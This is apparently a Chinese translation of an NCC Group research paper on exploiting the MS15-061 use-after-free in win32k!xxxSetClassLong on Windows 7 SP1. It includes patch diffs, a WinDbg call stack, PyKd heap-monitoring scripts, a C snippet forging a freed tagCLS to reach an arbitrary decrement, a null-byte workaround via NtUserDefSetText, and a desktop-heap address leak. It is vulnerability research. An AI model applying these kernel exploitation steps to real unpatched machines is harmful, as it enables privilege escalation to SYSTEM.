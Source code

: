 利用 MS15-061 Windows 内核释放后重用漏洞（win32k!xxxSetClassLong）
==================================================================


**Dominic Wang**

**NCC Group**


**译者** ：rectigu@gmail.com

**创建时间** ：2015 年 8 月

**更新时间** ：2016 年 4 月 27 日


1. 简介
-------

2015 年 6 月，微软发布了 MS15-061 安全通告，修复了许多漏洞【1】。
本文旨在提供对其中一个 win32k.sys 漏洞的详细分析， 并且阐述了在 Windows
7 SP1 上利用这类漏洞的必要的细节。

起初，我尝试重现出现在 Duqu 2.0 样本中的本地提权漏洞。
经过一些研究与补丁分析，我发现 Udi Yavo 发现了一些非常有意思 而且与 Duqu
2.0 使用的漏洞（CVE-2015-2360）类型一样的漏洞。
更重要的是，我碰巧触发了同样的代码路径。

请注意我使用的是 32 位的 Windows 7 SP1 来做初始分析与漏洞利用。
不过本文阐述的技巧也同样适用于 64 位的 Windows。事实上，
在本文的方法上做一点很小的改动就可以很轻松地开发出 64 位的利用程序。

1.1. 漏洞描述
*************

这个是一个位于 win32k.sys 的释放后重用漏洞。
漏洞的起因是没有为用户模式回调函数给窗口内核类型加锁， 该漏洞可以由
win32k.sys 中的 xxxSetClassLong 函数触发。
成功利用该漏洞将导致提升特权到“NT AUTHORITY/SYSTEM”。

1.2. 受影响的操作系统
*********************

该漏洞影响的版本从 Windows XP 一直到 Windows 7 SP1【2】。

-  Windows 7
-  Windows Vista
-  Windows XP
-  Windows Server 2008
-  Windows Server 2008 R2
-  Windows Server 2003

1.3. 荣誉
*********

该漏洞由 enSilo 的 Udi Yavo【2】发现并阐述。

2. 初始分析
-----------

2.1. 背景
*********

该漏洞的本质与用于 RussianDoll（CVE-2015-1701） 与用于 Duqu
2.0（CVE-2015-2360）类似。 这些漏洞的根源都是在执行 CopyClientImage
用户模式回调函数时
没能正确地给窗口内核类型加锁。特别地，该漏洞影响的对象 与用于 Duqu 2.0
的是一样的，也就是 tagCLS 内核结构。

2.1.1. 补丁对比
+++++++++++++++

::

    文件            版本                MD5
    win32k.sys     6.1.7601.18773      ba3cb7d5c1dcf17e6fffb28db950841a
    win32k.sys     6.1.7601.18869      bcd4c37a7043e75131111ea447210de7

补丁 MS15-061 在位于 xxxSetClassCursor 函数的 xxxSetClassIcon 函数调用
前后加上了内核类型加锁与解锁的系统调用，位于 xxxSetClassData 函数中的
xxxSetClassCursor 也是如此。这可以在下面的补丁对比中看到。

未打补丁的 xxxSetClassData 函数：

::

    .text:BF83AD94                        push     [ebp+arg_8]
    .text:BF83AD97                        push     edi
    .text:BF83AD98                        push     esi
    .text:BF83AD99                        push     eax
    .text:BF83AD9A                        call     _xxxSetClassCursor@16 ;
    xxxSetClassCursor(x,x,x,x) ; xxxSetCursor leads to xxxSetClassIcon
    .text:BF83AD9F                        call     __SEH_epilog4
    .text:BF83ADA4                        retn     10h

打了补丁的 xxxSetClassData 函数：

::

    .text:BF83ADAD                        lea      eax, [ebp+var_34]
    .text:BF83ADB0                        push     eax
    .text:BF83ADB1                        push     esi
    .text:BF83ADB2                        call     _ClassLock@8        ; ClassLock(x,x)
    .text:BF83ADB7                        test     eax, eax
    .text:BF83ADB9                        jz       loc_BF83AADC
    .text:BF83ADBF                        push     [ebp+arg_8]
    .text:BF83ADC2                        push     edi
    .text:BF83ADC3                        push     esi
    .text:BF83ADC4                        push     [ebp+P]
    .text:BF83ADC7                        call     _xxxSetClassCursor@16 ;
    xxxSetClassCursor(x,x,x,x) ; xxxSetCursor leads to xxxSetClassIcon
    .text:BF83ADCC                        mov      edi, eax
    .text:BF83ADCE                        lea      eax, [ebp+var_34]
    .text:BF83ADD1                        push     eax
    .text:BF83ADD2                        push     esi
    .text:BF83ADD3                        call     _ClassUnlock@8      ; ClassUnlock(x,x)
    .text:BF83ADD8                        mov      eax, edi
    .text:BF83ADDA                        jmp      loc_BF83AAE5
    Snipped
    .text:BF83AAE5                        call     __SEH_epilog4
    .text:BF83AAEA                        retn     10h

未打补丁的 xxxSetClassCursor 函数：

::

    .text:BF92BDE4                       cmp       ebx, 0FFFFFFDEh
    .text:BF92BDE7                       jz        short loc_BF92BDFF
    .text:BF92BDE9                       cmp       ebx, 0FFFFFFF2h
    .text:BF92BDEC                       jz        short loc_BF92BDFF
    Snipped
    .text:BF92BDFF                       push      ebx
    .text:BF92BE00                       push      esi
    .text:BF92BE01                       push      edi
    .text:BF92BE02                       push      [ebp+arg_0]
    .text:BF92BE05                       call      _xxxSetClassIcon@16 ;
    xxxSetClassIcon(x,x,x,x) ; xxxSetClassIcon leads to the user-mode callback
    .text:BF92BE0A
    .text:BF92BE0A                       mov       edi, [edi]

打了补丁的 xxxSetClassCursor 函数：

::

    .text:BF92C3D2                       cmp       ebx, 0FFFFFFDEh
    .text:BF92C3D5                       jz        short loc_BF92C3ED
    .text:BF92C3D7                       cmp       ebx, 0FFFFFFF2h
    .text:BF92C3DA                       jz        short loc_BF92C3ED
    Snipped
    .text:BF92C3ED                       lea       eax, [ebp+var_18]
    .text:BF92C3F0                       push      eax
    .text:BF92C3F1                       push      esi
    .text:BF92C3F2                       call      _ClassLock@8       ; ClassLock(x,x)
    .text:BF92C3F7                       test      eax, eax
    .text:BF92C3F9                       jz        short loc_BF92C421
    .text:BF92C3FB                       push      ebx
    .text:BF92C3FC                       push      edi
    .text:BF92C3FD                       push      esi
    .text:BF92C3FE                       push      [ebp+arg_0]
    .text:BF92C401                       call      _xxxSetClassIcon@16 ;
    xxxSetClassIcon(x,x,x,x) ; xxxSetClassIcon leads to the user-mode callback
    .text:BF92C406                       lea       eax, [ebp+var_18]
    .text:BF92C409                       push      eax
    .text:BF92C40A                       push      esi
    .text:BF92C40B                       call      _ClassUnlock@8     ; ClassUnlock(x,x)
    .text:BF92C410                       mov       esi, eax

2.2. 漏洞
*********

没能在用户模式回调函数的前后正确地实现 ClassLock 使得攻击者可以通过
win32k 系统调用修改窗口内核类型结构，比如说
tagCLS。这种情况最终可能导致位于桌面堆上的目标内核类型结构的修改与释放，而内核却继续操作已经被释放的内存。这是一个典型的利用
win32k.sys 用户模式回调函数的释放后重用场景【3】。

2.2.1. 调用链
+++++++++++++

为了重现的方便，我们使用取自全新安装的 Windows 7 SP1 的 win32k.sys
驱动程序来做进一步的分析。

::

    文件              版本                 MD5
    win32k.sys       6.1.7601.17514      687464342342b933d6b7faa4a907af4c

用恰当的参数调用 SetClassLong 用户模式 API
设置图标属性能够触发存在漏洞的用户模式回调函数，正如 Udi Yavo
在他的分析【2】中描述的那样。举个例子，这可以通过下面的代码片段触发。

::

    ; 触发用户模式回调函数
    SetClassLongPtr(hwnd, GCLP_HICON, (LONG_PTR)LoadIcon(NULL, IDI_QUESTION));

这种表现可以通过在 KeUserModeCallback 函数设置恰当的断点来展示，如下
WinDbg 调用栈所示；

::

    kd> kb
    ChildEBP RetAddr        Args to Child
    9aa83ad8 96f93a7d 0001002b 00000001 00000010 nt!KeUserModeCallback
    9aa83b00 9701f2f8 fea11200 fea11200 fffffff2 win32k!xxxCreateClassSmIcon+0x7f
    9aa83b28 97018d80 fea144e0 00000000 ffb6a198 win32k!xxxSetClassIcon+0x8c
    9aa83b4c 96f2a251 fea144e0 fea11200 fffffff2 win32k!xxxSetClassCursor+0x6c
    9aa83b9c 96f2a3e4 fea144e0 fffffff2 0001002b win32k!xxxSetClassData+0x36d
    9aa83bb8 96f2a390 fea144e0 fffffff2 0001002b win32k!xxxSetClassLong+0x39
    9aa83c1c 82a821ea 0003026a fffffff2 0001002b win32k!NtUserSetClassLong+0x132
    9aa83c1c 773270b4 0003026a fffffff2 0001002b nt!KiFastCallEntry+0x12a
    0027fec0 76f96583 76f965b7 0003026a fffffff2 ntdll!KiFastSystemCallRet
    0027fec4 76f965b7 0003026a fffffff2 0001002b USER32!NtUserSetClassLong+0xc
    0027fefc 00ec10ce 0003026a fffffff2 0001002b USER32!SetClassLongW+0x5e

2.3. 概要
*********

总的来讲，真正的问题可以概括如下：

1. xxxSetClassLong 函数可以由 SetClassLong 用户模式函数调用到。
2. 如果用恰当的参数调用 SetClassLong 函数，最终会执行到
   xxxSetClassCursor 函数。
3. 在 xxxSetClassIcon 调用 xxxCreateClassSmIcon
   时，它会调用能导致用户模式回调的函数，而这个回调函数可以在用户模式挂钩。
4. 当代码在用户模式执行的时候，通过调用 win32k.sys
   系统调用桌面堆上的结构可能被改变；包括释放调 tagCLS 结构。
5. 返回到内核模式之后，内核线程没有检查已经被修改的结构。这是一个典型的造成在调用
   HMAUnlockObject【2】【3】时任意地址递减的释放后重用漏洞。


3. 触发漏洞
-----------

正如 Aaron
在他的论文【4】中所说的那样，漏洞利用程序的开发通常是通过一系列的阶段来实现的。我们通常把触发漏洞分类为第一阶段的内存破坏。这是一种很好的看待现代漏洞利用程序开发过程的方式，因为在现在要开发军火级别的漏洞利用程序所需的信息很容易让人迷失方向。

3.1. tagCLS 结构
****************

利用任何一个释放后重用漏洞的第一步就是弄清楚存在漏洞的对象是什么：熟悉哪个对象被释放掉了。在这个漏洞中，存在漏洞的对象时
tagCLS 内核窗口类型结构。这是一个可以通过 RegisterClass 用户模式
API【5】实例化的内核类型结构，该函数返回的原子【6】可以使用 CreateWindow
或者 CreateWindowEx【7】用户模式 API 来创建 GUI 窗口。

下面是 WinDbg 输出的 tagCLS 结构与它的大小。

::

    kd> dt win32k!tagCLS
         +0x000 pclsNext               : Ptr32 tagCLS
         +0x004 atomClassName          : Uint2B
         +0x006 atomNVClassName        : Uint2B
         +0x008 fnid                   : Uint2B
         +0x00c rpdeskParent           : Ptr32 tagDESKTOP
         +0x010 pdce                   : Ptr32 tagDCE
         +0x014 hTaskWow               : Uint2B
         +0x016 CSF_flags              : Uint2B
         +0x018 lpszClientAnsiMenuName : Ptr32 Char
         +0x01c lpszClientUnicodeMenuName : Ptr32 Uint2B
         +0x020 spcpdFirst             : Ptr32 _CALLPROCDATA
         +0x024 pclsBase               : Ptr32 tagCLS
         +0x028 pclsClone              : Ptr32 tagCLS
         +0x02c cWndReferenceCount : Int4B
         +0x030 style                  : Uint4B
         +0x034 lpfnWndProc            : Ptr32        long
         +0x038 cbclsExtra             : Int4B
         +0x03c cbwndExtra             : Int4B
         +0x040 hModule                : Ptr32 Void
         +0x044 spicn                  : Ptr32 tagCURSOR
         +0x048 spcur                  : Ptr32 tagCURSOR
         +0x04c hbrBackground          : Ptr32 HBRUSH__
         +0x050 lpszMenuName           : Ptr32 Uint2B
         +0x054 lpszAnsiClassName : Ptr32 Char
         +0x058 spicnSm                : Ptr32 tagCURSOR
    kd> ?? sizeof(win32k!tagCLS)
    unsigned int 0x5c

3.2. 监视桌面堆
***************

桌面堆用于为 win32k.sys 驱动程序存储 GUI
对象【3】。为了监视桌面堆，我个人使用 PyKd，一个赋予 WinDbg 调试器
Python 编程能力的拓展。我使用 PyKd
借助硬件断点来实现软挂钩并且在开发过程中使用 Python
回调函数来做分析。不过，出于完整性考虑，下面的 WinDbg
脚本会帮助监视桌面堆的分配与释放。

监视桌面堆分配（64 位）

::

    ba e 1 nt!RtlFreeHeap ".printf\"RtlFreeHeap(%p, 0x%x, %p)\", @rcx,
    @edx, @r8; .echo ; gc";
    ba e 1 nt!RtlAllocateHeap "r @$t2 = @r8; r @$t3 = @rcx; gu; .printf
    \"RtlAllocateHeap(%p, 0x%x):\", @$t3, @$t2; r @rax; gc";

监视桌面堆分配（32 位）

::

    ba e 1 nt!RtlAllocateHeap "r @$t2 = poi(@esp+c); r @$t3 = poi(@esp+4);
    gu; .printf \"RtlAllocateHeap(%p, 0x%x):\", @$t3, @$t2; r @eax; gc";
    ba e 1 nt!RtlFreeHeap ".printf\"RtlFreeHeap(%p, 0x%x, %p)\",
    poi(@esp+4), poi(@esp+8), poi(@esp+c); .echo ; gc"

请注意从现在开始，输出与 提供的 Python 代码片段都是我通过 PyKd 用来分析
WinDbg 输出的回调逻辑。

3.3. 触发用户模式回调
*********************

win32k
使用用户模式回调函数来实现像应用程序定义的钩子和与用户模式交换数据等用户模式的操作。考虑到
win32k 的内部机制已经在 Tarjei Mandt
的研究【3】中详细阐述，我将会只提供对利用该漏洞所需要的结构做一个简单的介绍。

下面这个给 PyKd 钩子的回调用于获取 PEB.KernelCallbackTable 的地址：

.. code:: python

    def getKernelCallBackTable():
         # wingdbstub.Ensure()
         console = pykd.dbgCommand("dt !_PEB @$peb").split()
         for i in range(0, len(console)):
              if console[i] == u'KernelCallbackTable':
                    index = i
                    break
         print("KernelCallBackTable: %s" % console[i+2])
         return int(console[i+2], 16)

有了 PEB.KernelCallbackTable 的地址，我们就可以使用 WinDbg 的 dds
命令把回调函数表及其相关联的符号显示出来。

::

    kd> getKernelCallBackTable
    KernelCallBackTable: 0x7708d568
    kd> dds 0x7708d568
    7708d568 770764eb USER32!__fnCOPYDATA
    7708d56c    770bf0bc USER32!__fnCOPYGLOBALDATA
    7708d570    77084f59 USER32!__fnDWORD
    7708d574    7707b2a1 USER32!__fnNCDESTROY
    7708d578    770a01a6 USER32!__fnDWORDOPTINLPMSG
    7708d57c    770bf196 USER32!__fnINOUTDRAG
    7708d580    770a6bfd USER32!__fnGETTEXTLENGTHS
    7708d584    770bf3ea USER32!__fnINCNTOUTSTRING
    Snipped

想想在 2.2.1 节中的漏洞调用链，在 nt!KeUserModeCallback
系统调用的之前的最后一帧是 win32k!xxxCreateClassSmIcon+0x7f：

::

    .text:BF8A3A76                          push     ecx
    .text:BF8A3A77                          push     edx
    .text:BF8A3A78                          call     _xxxClientCopyImage@20 ;
    xxxClientCopyImage(x,x,x,x,x)
    win32k!xxxCreateClassSmIcon+0x7f:
    .text:BF8A3A7D                          lea      esi, [edi+58h]

看看 xxxClientCopyImage 函数调用。注意用于 KeUserModeCallback 调用的
ApiNumber参数是 0x36，这是在回调表中的索引，也就是 ClientCopyImage
回调：

::

    .text:BF8A276C                          push     eax
    .text:BF8A276D                          push     14h
    .text:BF8A276F                          lea      eax, [ebp+var_30]
    .text:BF8A2772                          push     eax
    .text:BF8A2773                          push     36h ; ApiNumber
    .text:BF8A2775                          call     ds:__imp__KeUserModeCallback@20 ;
    KeUserModeCallback(x,x,x,x,x)
    .text:BF8A277B                          mov      esi, eax

我们可以用 WinDbg 验证这一点：

::

    kd> dds 0x7708d568 + 0x4*0x36 L1
    7708d640 7707f55f USER32!__ClientCopyImage

回忆一下 2.3
节，这个用户模式回调函数可以被挂钩。注意现在这个回调函数指向我们的利用程序定义的钩子（ripmtso!hookClientCopyImage）：

::

    kd> dds 0x7708d568 + 0x4*0x36 L1
    7708d640 010f1490 ripmtso!hookClientCopyImage
    [z:\expdev\workspace\ripmtso\ripmtso\main.c @ 637]

3.4. 使用已经释放了的内存
*************************

::

    断点                                       分析
    win32k!xxxCreateClassSmIcon+0x7a          beforeCCI()
    win32k!xxxCreateClassSmIcon+0x7f          afterCCI()
    nt!RtlFreeHeap                            monitorRtlFreeHeap()
    nt!RtlAllocateHeap                        monitorRtlAllocateHeap_1
    nt!RtlAllocateHeap+0x10e                  monitorRtlAllocateHeap_2

我使用 xxxCreateSmIcon 来观察这个释放后重用场景：

::

    .text:BF8A3A76                        push      ecx
    .text:BF8A3A77                        push      edx ; win32k!xxxCreateClassSmIcon+0x7a
    .text:BF8A3A78                        call      _xxxClientCopyImage@20 ; leads to user-mode
    callback
    .text:BF8A3A7D                        lea       esi, [edi+58h] ;

win32k!xxxCreateClassSmIcon+0x7f，edi 寄存器指向 win32k!tagCLS 结构

相关的分析逻辑：

.. code:: python

    def disable_bp(bp_symbol):
         console = pykd.dbgCommand("bl").split()
         for i in range(0, len(console)):
              if console[i] == bp_symbol:
                   index = i
                   break
         pykd.dbgCommand("bd %s" % console[i-7])
         print("[+] Breakpoint %s disabled!" % console[i-7])
    def beforeCCI():
         tagCLS = pykd.dbgCommand("?edi").split()[4]
         print("[+] tagCLS allocated @: %s" % tagCLS)
    def afterCCI():
         # disable_bp(u'nt!RtlFreeHeap')
         Pass

此外，桌面堆监视：

.. code:: python

    def monitorRtlFreeHeap():
          parent = pykd.dbgCommand("?poi(esp+4)").split()[4]
          size = pykd.dbgCommand("?poi(esp+8)").split()[4]
          freed_chunk = pykd.dbgCommand("?poi(esp+c)").split()[4]
          print("RtlFreeHeap(0x%s, 0x%s, 0x%s)" % (parent, size, freed_chunk))
          pykd.dbgCommand("g")
    def monitorRtlAllocateHeap_1():
          #wingdbstub.Ensure()
          t2 = pykd.dbgCommand("?poi(esp+c)").split()[4]
          t3 = pykd.dbgCommand("?poi(esp+4)").split()[4]
          ptr = pykd.dbgCommand("?eax").split()[4]
          print("[+] RtlAllocateHeap(0x" + t3 +", 0x"+ t2 + "):")
          pykd.dbgCommand("g")
    def monitorRtlAllocateHeap_2():
          #wingdbstub.Ensure()
          ptr = pykd.dbgCommand("?eax").split()[4]
          print("[+] ptr = 0x%s" % ptr)
          pykd.dbgCommand("g")

想象一下，如果我们在 CopyClientImage 钩子中调用 DestroyWindow 与
UnregisterClass 函数，那会怎样？

这将会导致 位于 tagCLS 中的 cWndReferenceCount
自减，并最终在类型取消注册时造成释放 tagCLS 的后果。

::

    kd> g
    [+] tagCLS allocated @: fea31ca0
    win32k!xxxCreateClassSmIcon+0x7a:
    970a3a78 e8b9ecffff            call      win32k!xxxClientCopyImage (970a2736)
    kd> be * ; enable desktop heap monitoring breakpoints
    kd> g
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea31dd8)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea31d08)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea31ca0)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea313a8)
    win32k!xxxCreateClassSmIcon+0x7f:
    970a3a7d 8d7758                lea       esi,[edi+58h] ; operating on freed memory

3.5. 伪造 tagCLS 结构
*********************

利用这种类型漏洞的经典方式就是设置通过 SetWindowTextW
设置窗口的标题栏，并因此强制实现任意大小的桌面堆分配。唯一需要注意的是，使用这种技巧的时候，不允许缓冲区中存在单字零，并且为了结束字符串【3】最后两个字节必须是零。

.. code:: c

    BYTE chunk[0x5c];
    memset(chunk, '\x41', 0x5c);
    chunk[0x58] = '\xa9';
    chunk[0x59] = '\xde';
    chunk[0x5a] = '\x00';
    chunk[0x5b] = '\x00';
    SetWindowTextW(hwnd,chunk);

3.6. 非法访问
*************

简言之，我们能够通过被替换了的对象（偏移+0x58）使任意地址自减。注意我们只能控制自减地址的两个字节（举个例子，0x0000dead）：

::

    kd> g
    [+] tagCLS allocated @: fea23718
    win32k!xxxCreateClassSmIcon+0x7a:
    982d3a78 e8b9ecffff            call     win32k!xxxClientCopyImage (982d2736)
    kd> be * ; enable desktop heap monitoring breakpoints
    kd> g
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea23850)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea23780)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea23718)
    RtlFreeHeap(0xfea00000, 0x00000000, 0xfea2b208)
    [+] RtlAllocateHeap(0xfea00000, 0x0000005c):
    [+] ptr = 0xfea23718 ; replacing the freed object using SetWindowTextW
    win32k!xxxCreateClassSmIcon+0x7f:
    982d3a7d 8d7758                lea      esi,[edi+58h]
    kd> dc 0xfea23718
    fea23718     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
    fea23728     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
    fea23738     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
    fea23748     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
    fea23758     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
    fea23768     41414141 41414141 0000dea9 00000000          AAAAAAAA........
    fea23778     00000003 0000000d fea2b208 fea192b8          ................
    fea23788     00000000 00000000 00010017 08000003          ................
    kd> g
    Access violation - code c0000005 (!!! second chance !!!)
    win32k!HMUnlockObject+0x8:
    982fdcc1 ff4804                dec      dword ptr [eax+4]
    kd> r
    eax=0000dea9 ebx=ffa1b7b8 ecx=ff910000 edx=ffa4f8e8 esi=ffa4f8e8 edi=0000dea9
    eip=982fdcc1 esp=b27c6adc ebp=b27c6adc iopl=0                    nv up ei pl nz na pe nc
    cs=0008 ss=0010 ds=0023 es=0023 fs=0030 gs=0000                               efl=00010206
    win32k!HMUnlockObject+0x8:
    982fdcc1 ff4804                dec      dword ptr [eax+4]        ds:0023:0000dead=????????

偏移 0x58 是这个 tagCLS 对象的 spicnSm 成员，该成员在执行 HMUnlokObject
操作是会被引用。该操作用于解锁（自减）给定对象的引用计数。因此，这将导致造成任意自减的场景。

4. 利用漏洞
-----------

有几个可以用来利用这个漏洞的方法。其中著名的技巧是反转位于
tagCLS【8】中的 CSF\_flags 结构的 Server Side Proc 域。
不过，我决定使用一种会引入一个额外的 tagWND 结构的方法。

4.1. 单字零的问题
*****************

在利用自减一条件之前，我们还需要解决几个障碍。 由于宽字符的限制，在使用
SetWindowTextW 的时有零指针与单字零是不可能的。
这是个问题我们需要在伪造的 tagCLS
块中的零指针来正常的退出存在漏洞的代码路径。 而且，我们通过
SetWindowTextW 技巧只能控制自减的最后两个字节。 这在 32
位架构几乎没有任何用处。

不妨在调用 SetWindowTextW 函数时设置一个断点到 RtlAllocateHeap 上。

::

    kd> ba e 1 nt!RtlAllocateHeap
    kd> bl
      0 e 82ad3ee7 e 1 0001 (0001) nt!RtlAllocateHeap
    kd> g
    Breakpoint 0 hit
    nt!RtlAllocateHeap:
    82ad3ee7 8bff                  mov       edi,edi
    kd> kb
    ChildEBP RetAddr       Args to Child
    b276ca9c 9830690a fea00000 00000000 0000005c nt!RtlAllocateHeap
    b276cab4 982eb6a4 86938048 0000005c 00000004 win32k!DesktopAlloc+0x25
    b276caf8 982dd499 fea226d8 0000005c 2a35ba52 win32k!DefSetText+0x8a
    b276cb70 982eb611 fea226d8 0000000c 00000000 win32k!xxxRealDefWindowProc+0x111
    b276cb88 982ef86b fea226d8 0000000c 00000000 win32k!xxxWrapRealDefWindowProc+0x2b

看似 win32k!DefSetText 可以用来触发桌面堆的分配。
具体讲，该函数可以通过直接调用 NtUserDefSetText 系统调用 由
user32!NtUserDefSetText【4】调用到：

::

    .text:77D4265A ; __stdcall NtUserDefSetText(x, x)
    .text:77D4265A _NtUserDefSetText@8 proc near                       ; CODE XREF:
    _DefSetText(x,x,x)+33p
    .text:77D4265A                         mov       eax, 116Dh
    .text:77D4265F                         mov       edx, 7FFE0300h
    .text:77D42664                         call      dword ptr [edx]
    .text:77D42666                         retn      8
    .text:77D42666 _NtUserDefSetText@8 endp

利用 NtUserDefSetText 系统调用，我们可以绕过单字零的限制。
现在我们能够分配包含单字零的任意桌面堆块。这意味着此时我们已经可以自减任意地址了。

::

    eax=cafebaba ebx=ffa19708 ecx=ff910000 edx=fe6966e0 esi=fe6966e0 edi=cafebaba
    eip=982fdcc1 esp=9b3b7adc ebp=9b3b7adc iopl=0                    nv up ei ng nz na po nc
    cs=0008 ss=0010 ds=0023 es=0023             fs=0030    gs=0000                 efl=00010282
    win32k!HMUnlockObject+0x8:
    982fdcc1 ff4804                dec       dword ptr [eax+4]       ds:0023:cafebabe=????????

4.2. 泄漏桌面堆的信息
*********************

现在，我将介绍一些用于从用户模式读取桌面堆的结构。需要注意的是所有的用户对象都被索引到了一张每会话的句柄表中，该表位于
win32k!gpvSharedBase【3】，并且该区被映射到了每一个 GUI
进程（用户模式）。这对漏洞利用程序开发者来说是一个天大的好消息，因此我们可以从用户模式读取桌面堆的任意内容。这个特性可以看作是一个强有力的信息泄漏。
因为我们可以从用户模式映射的桌面堆获取任意桌面堆对象的内容，所以我们可以备份被篡改的
tagCLS
结构并用它来恰当地从存在漏洞的代码路径退出。更具体地讲，在将其替换为利用
NtUserDefSetText 系统调用篡改过的 tagCLS
之前，我们使用桌面堆泄漏来复制一份 tagCLS。在我们拿到一份有效的 tagCLS
对象的复本后，我们修改位于偏移 0x58
处的指针，该指针在后面将会用来实现任意自减。
读取用户模式映射的桌面堆的过程已经在 Tarjei 的论文【3】与 Aaron
的论文【4】中阐述。简单讲，我们能用 NtCurrentTeb() 来定位
Win32ClientInfo 结构：

.. code:: c

    typedef struct _CLIENTINFO
    {
             ULONG_PTR CI_flags;
             ULONG_PTR cSpins;
             DWORD dwExpWinVer;
             DWORD dwCompatFlags;
             DWORD dwCompatFlags2;
             DWORD dwTIFlags;
             PDESKTOPINFO pDeskInfo;
             ULONG_PTR ulClientDelta;
             // incomplete. see reactos
    } CLIENTINFO, *PCLIENTINFO;

ulClientDelta
成员可以用来计算桌面堆对象的用户模式地址。这是桌面堆用户模式映射与内核映射的偏移。

接着，看看 win32k!tagSHAREDINFO 结构，该结构由
user32!gSharedInfo（用户模式）与 win32k!gSharedInfo（内核模式）指向：

::

    kd> ?user32!gSharedInfo
    Evaluate expression: 1981453376 = 761a9440
    kd> dt win32k!tagSHAREDINFO 761a9440
        +0x000 psi                    : 0x003b0578 tagSERVERINFO
        +0x004 aheList                : 0x002f0000 _HANDLEENTRY
        +0x008 HeEntrySize            : 0xc
        +0x00c pDispInfo              : 0x003b1728 tagDISPLAYINFO
        +0x010 ulSharedDelta          : 0xff620000
        +0x014 awmControl             : [31] _WNDMSG
        +0x10c DefWindowMsgs          : _WNDMSG
        +0x114 DefWindowSpecMsgs : _WNDMSG
    kd> ?win32k!gSharedInfo
    Evaluate expression: -1740320288 = 9844d1e0
    kd> dt win32k!tagSHAREDINFO 9844d1e0
        +0x000 psi                    : 0xff9d0578 tagSERVERINFO
        +0x004 aheList                : 0xff910000 _HANDLEENTRY
        +0x008 HeEntrySize            : 0xc
        +0x00c pDispInfo              : 0xff9d1728 tagDISPLAYINFO
        +0x010 ulSharedDelta          : 0
        +0x014 awmControl             : [31] _WNDMSG
        +0x10c DefWindowMsgs          : _WNDMSG
        +0x114 DefWindowSpecMsgs : _WNDMSG

aheList 成员指向一个 win32k!\_HANDLEENTRY
数组，该数组包含指向对应句柄实际内核模式地址的指针。因为窗口句柄的低 16
比特实际上是 aheList
数组的索引，所以我们可以获取任意窗口桌面堆对象的内核内存指针。因此，我们可以计算内核对象映射的用户模式内存。这可以通过从内核指针减去
ulClientDelat 计算出。

